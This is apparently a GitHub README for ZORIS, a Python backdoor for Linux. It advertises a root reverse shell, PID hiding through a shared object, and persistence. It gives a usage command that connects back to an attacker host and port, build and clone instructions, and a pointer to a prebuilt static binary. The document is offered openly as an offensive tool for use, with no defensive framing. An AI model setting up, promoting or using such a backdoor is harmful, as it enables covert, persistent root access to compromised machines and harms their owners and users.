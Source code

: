 <h1 align="center">「🚪」ZORIS</h1>

<p align="center"><img src="assets/1.png"></p>

<p align="center">ZORIS is a simple backdoor created in python in order to bring the shell of a linux system to a machine through the reverse connection, but make no mistake, ZORIS has a shared object (so) that allows you to hide the PID of the backdoor installed on the system, keeping it out of sight of other users inside the machine and being silent. It is necessary to be the root user, but by activating it, its persistence is certain.</p>

### Benefits:

* Reverse shell connection as root

* Hide the PID

* Persistence

## Tested linux distro

- [x] Arch Linux
- [X] CentOS
- [X] Debian
- [ ] Fedora
- [ ] openSUSE
- [ ] Gentoo

## How to use

<p align="center"><img src="assets/2.png"></p>

```
# ./zoris -rh <ATTACKER HOST> -rp <ATTACKER PORT>
```

## Installation

```
# git clone https://github.com/MrEmpy/zoris.git
# chmod +x build.sh
# ./build.sh
```

Note: If you prefer, we have the ZORIS static binary in the ```static``` directory with all dependencies inserted.

## Available architecture of static binary

- [x] amd64
- [ ] i386
- [ ] arm64
- [X] armv7


